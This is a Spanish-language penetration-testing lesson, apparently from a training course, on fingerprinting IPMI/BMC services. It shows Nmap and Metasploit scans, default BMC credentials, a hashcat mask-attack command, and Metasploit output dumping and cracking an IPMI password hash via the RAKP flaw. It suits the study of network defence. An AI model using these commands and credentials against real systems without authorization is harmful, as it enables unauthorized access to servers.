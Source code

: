 
-------------
#hosts #ipmi #servicios 

---------------

## Huella del servicio

IPMI se comunica a través del puerto 623 UDP. Los sistemas que utilizan el protocolo IPMI se denominan controladores de administración de placa base (BMC). Por lo general, los BMC se implementan como sistemas ARM integrados que ejecutan Linux y se conectan directamente a la placa base del host. Los BMC están integrados en muchas placas base, pero también se pueden agregar a un sistema como una tarjeta PCI. La mayoría de los servidores vienen con un BMC o admiten la adición de un BMC. Los BMC más comunes que vemos a menudo durante las pruebas de penetración internas son HP iLO, Dell DRAC y Supermicro IPMI. Si podemos acceder a un BMC durante una evaluación, obtendríamos acceso completo a la placa base host y podríamos monitorear, reiniciar, apagar o incluso reinstalar el sistema operativo host. Obtener acceso a un BMC es casi equivalente al acceso físico a un sistema. Muchos BMC (incluidos HP iLO, Dell DRAC y Supermicro IPMI) exponen una consola de administración basada en la web, algún tipo de protocolo de acceso remoto de línea de comandos como Telnet o SSH, y el puerto 623 UDP, que, nuevamente, es para el protocolo de red IPMI. A continuación se muestra un ejemplo de análisis de Nmap que utiliza el script NSE [de la versión ipmi de](https://nmap.org/nsedoc/scripts/ipmi-version.html) Nmap para colocar el servicio.

#### Nmap

  IPMI

```shell-session
zunderrubb@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

Aquí, podemos ver que el protocolo IPMI está escuchando en el puerto 623, y Nmap tiene huellas dactilares de la versión 2.0 del protocolo. También podemos utilizar el módulo de escáner de Metasploit [IPMI Information Discovery (auxiliar/scanner/ipmi/ipmi_version).](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/)

#### Escaneo de la versión de Metasploit

  IPMI

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Durante las pruebas de penetración internas, a menudo encontramos BMC en los que los administradores no han cambiado la contraseña predeterminada. Algunas contraseñas predeterminadas únicas que se pueden mantener en nuestras hojas de referencia incluyen:

|Producto|Nombre de usuario|Contraseña|
|---|---|---|
|Dell iDRAC|raíz|Calvin|
|HP iLO|Administrador|Cadena aleatoria de 8 caracteres que consta de números y letras mayúsculas|
|Supermicro IPMI|ADMIN|ADMIN|

También es esencial probar contraseñas predeterminadas conocidas para CUALQUIER servicio que descubramos, ya que a menudo se dejan sin cambios y pueden conducir a ganancias rápidas. Cuando se trata de BMC, estas contraseñas predeterminadas pueden darnos acceso a la consola web o incluso acceso a la línea de comandos a través de SSH o Telnet.

---

## Configuraciones peligrosas

Si las credenciales predeterminadas no funcionan para acceder a un BMC, podemos recurrir a una [falla](http://fish2.com/ipmi/remote-pw-cracking.html) en el protocolo RAKP en IPMI 2.0. Durante el proceso de autenticación, el servidor envía un hash SHA1 o MD5 salado de la contraseña del usuario al cliente antes de que se lleve a cabo la autenticación. Esto se puede aprovechar para obtener el hash de contraseña para CUALQUIER cuenta de usuario válida en el BMC. Estos hashes de contraseña se pueden descifrar sin conexión mediante un ataque de diccionario usando el modo . En el caso de que un HP iLO use una contraseña predeterminada de fábrica, podemos usar este comando de ataque de máscara Hashcat que prueba todas las combinaciones de letras mayúsculas y números para una contraseña de ocho caracteres.`Hashcat``7300``hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`

No hay una "solución" directa a este problema porque la falla es un componente crítico de la especificación IPMI. Los clientes pueden optar por contraseñas muy largas y difíciles de descifrar o implementar reglas de segmentación de red para restringir el acceso directo a los BMC. Es importante no pasar por alto IPMI durante las pruebas de penetración internas (lo vemos durante la mayoría de las evaluaciones) porque no solo a menudo podemos obtener acceso a la consola web de BMC, lo cual es un hallazgo de alto riesgo, sino que hemos visto entornos en los que se establece una contraseña única (pero descifrable) que luego se reutiliza en otros sistemas. En una de esas pruebas de penetración, obtuvimos un hash IPMI, lo desciframos fuera de línea usando Hashcat y pudimos usar SSH en muchos servidores críticos del entorno como usuario root y obtener acceso a las consolas de administración web para varias herramientas de monitoreo de red.

Para recuperar hashes IPMI, podemos usar el módulo Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) .

#### Hashes de volcado de Metasploit

  IPMI

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
